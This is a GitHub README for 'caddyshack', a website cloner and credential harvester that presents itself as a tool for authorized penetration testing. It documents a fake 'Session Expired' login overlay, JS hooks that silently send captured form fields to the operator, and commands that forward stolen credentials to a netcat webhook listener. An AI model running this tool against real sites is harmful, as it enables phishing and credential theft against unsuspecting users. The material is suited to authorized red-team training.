

# caddyshack

**Website Cloner & Credential Harvester — v2.2.0**

Written by: Brennan Turner ([@BLTSEC](https://BLTSEC.COM))



> **For authorized penetration testing only.** Obtain written permission before targeting any system.
> Intended for use in engagements, labs, and certifications such as OSCP, PNPT, and HackTheBox.

---

## Features

- **Native Go HTTP cloning** — no wget dependency; fetches HTML + CSS/JS/images with a modern Chrome UA
- **Overlay mode** (`--overlay`) — strips all site JavaScript and injects a "Session Expired" login card over the blurred cloned page. No error popups, no failed API calls — just a clean credential capture form. Best option for JS-heavy targets
- **JS-driven form capture** — in default mode, injects hooks that intercept `fetch()` and `XMLHttpRequest` before site JS runs; captured fields are silently beaconed to `/capture`
- **CSS sub-asset rewriting** — parses downloaded CSS for `url()` and `@import` references, fetches fonts/background images, and rewrites paths locally; inline `<style>` blocks and `style=""` attributes are also processed
- **CDN-friendly asset downloading** — sends `Referer` and `Accept` headers on every asset request; failed assets fall back to their original URLs instead of producing broken local paths
- **Proper form rewriting** — `golang.org/x/net/html` parser replaces all form actions with `/submit`; GET forms stay GET, POST forms stay POST
- **HTTP or HTTPS** — auto-generates an in-memory ECDSA P-256 self-signed cert when `--tls` is set, or load your own
- **JSON Lines logging** — each capture is one JSON object appended to a file; `jq`-friendly, survives crashes
- **Colored console alerts** — real-time `[!] CREDENTIALS CAPTURED` output with field values
- **Webhook notifications** — optional async POST to any HTTP listener (Slack, Burp Collaborator, netcat, etc.)
- **Session summary** — total captures and unique source IPs printed on Ctrl-C
- **Clean exit** — cloned files auto-deleted from disk on exit (temp dir, better OPSEC)
- **Zero external dependencies beyond two packages** (`fatih/color`, `x/net/html`)

---

## Installation

```bash
go install github.com/BLTSEC/caddyshack@latest
```

Or build from source:

```bash
git clone https://github.com/BLTSEC/caddyshack
cd caddyshack
go build -o caddyshack .
```

Cross-compile (Linux):

```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o caddyshack .
```

---

## Usage

### Basic (HTTP)

```bash
./caddyshack --url https://target.lab/login --port 8080
```

Visit `http://<your-ip>:8080` — the cloned page is served. Submitted credentials are written to `creds.json` and printed to the console.

### HTTPS with auto-generated certificate

```bash
./caddyshack --url https://target.lab/login --port 8443 --tls
```

Self-signed cert is generated in memory (ECDSA P-256, 24h validity). No files written to disk.

### HTTPS with your own certificate

```bash
./caddyshack --url https://target.lab/login --port 443 --tls --cert cert.pem --key key.pem
```

### Custom output file + redirect URL

```bash
./caddyshack --url https://target.lab/login \
             --output /tmp/engagement-creds.json \
             --redirect https://target.lab/dashboard
```

### Webhook notification (e.g., netcat listener)

```bash
# Terminal 1 — listener
nc -lk 9999

# Terminal 2 — caddyshack
./caddyshack --url https://target.lab/login --webhook http://10.10.14.1:9999
```

Each form submission POSTs a JSON object to the webhook URL.

### Overlay mode (recommended for JS-heavy sites)

```bash
./caddyshack --url https://target.lab/login --overlay
```

Strips all site JavaScript and injects a "Session Expired" login overlay on top of the blurred cloned page. No error popups, no failed API calls — the victim sees the real site behind a clean credential capture card.

### Verbose + clone a site with HTTPS that has a self-signed cert

```bash
./caddyshack --url https://target.lab/login --insecure --verbose
```

---

## Flags

| Flag | Default | Description |
|------|---------|-------------|
| `--url` | *(required)* | Target URL to clone |
| `--port` | `8080` | Port to listen on |
| `--tls` | false | Enable HTTPS |
| `--cert` | | TLS certificate file (PEM) |
| `--key` | | TLS private key file (PEM) |
| `--output` | `creds.json` | Credential log file (JSON Lines) |
| `--redirect` | target URL | URL to redirect victims after capture |
| `--user-agent` | Chrome 133 | User-Agent used when cloning |
| `--webhook` | | HTTP/HTTPS URL for credential POSTs |
| `--overlay` | false | Strip site JS and inject a themed login overlay |
| `--insecure` | false | Skip TLS verification when cloning |
| `--verbose` | false | Debug output |

---

## Output format

`creds.json` is a JSON Lines file — one object per capture:

```json
{"timestamp":"2026-02-27T16:20:35Z","target_url":"https://target.lab/login","source_ip":"10.10.14.5:52341","user_agent":"Mozilla/5.0 ...","referer":"","fields":{"username":"admin","password":"Password1!"}}
```

Parse with `jq`:

```bash
jq '.fields' creds.json
```

---

## Known limitations

- **Full SPAs** — pages that render login forms entirely at runtime via JS bundles (React/Angular/Vue with no `<form>` tags in the static HTML) won't have forms to rewrite. The JS beacon hook still captures any credentials submitted via `fetch`/XHR, but there are no form actions to intercept. Use [evilginx](https://github.com/kgretzky/evilginx2) or [Modlishka](https://github.com/drk1wi/Modlishka) for full SPA reverse-proxy coverage
- **Bot protection** — Cloudflare, Akamai, and similar WAFs may block or rate-limit the cloner HTTP client
- **Nested CSS imports** — only one level of CSS sub-asset extraction; `@import` chains inside downloaded CSS files are not recursed
- **2FA/MFA relay** — not supported; this is not a reverse proxy. See [evilginx2](https://github.com/kgretzky/evilginx2) for that
